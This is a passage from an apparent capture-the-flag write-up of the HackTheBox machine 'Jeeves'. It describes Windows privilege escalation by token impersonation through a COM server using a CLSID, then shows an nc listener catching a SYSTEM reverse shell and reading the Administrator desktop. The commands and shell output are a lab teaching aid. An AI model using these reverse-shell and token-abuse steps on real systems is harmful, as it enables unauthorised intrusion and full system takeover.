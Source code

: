 This will setup a COM server on port 1337 (`-l`), use `cmd.exe` to launch commands (`-p`), using both `CreateProcessWithTokenW` and `CreateProcessAsUser` (`-t *`), using CLSID `{4991d34b-80a1-4291-83b6-3328366b9097}` (`-c`), and command line argument to pass to program (`-a`).

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Jeeves)-[2023.05.26|16:51:14(HKT)]
└> rlwrap -cAr nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.63] 49889
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && ipconfig /all
whoami && ipconfig /all
nt authority\system

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Jeeves
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-03-3A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.63(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{4079B648-26D5-4A56-9108-2A55EC5CE6CA}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #3
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

I'm `nt authority\system`!

## Rooted

**In user `Administrator`'s Desktop directory, we see this:**
```shell
C:\Windows\system32>type c:\users\administrator\desktop\hm.txt
type c:\users\administrator\desktop\hm.txt
The flag is elsewhere.  Look deeper.
```
